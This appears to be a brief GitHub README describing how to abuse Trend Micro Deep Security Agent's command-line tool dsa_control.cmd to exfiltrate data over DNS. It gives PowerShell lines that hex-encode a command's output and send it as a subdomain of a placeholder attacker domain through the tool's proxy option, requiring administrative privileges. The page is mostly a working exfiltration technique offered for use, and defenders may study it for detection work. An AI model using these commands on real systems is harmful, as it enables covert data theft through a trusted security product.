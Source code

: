 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

Requirements:
- Administrative privileges



```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```


## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

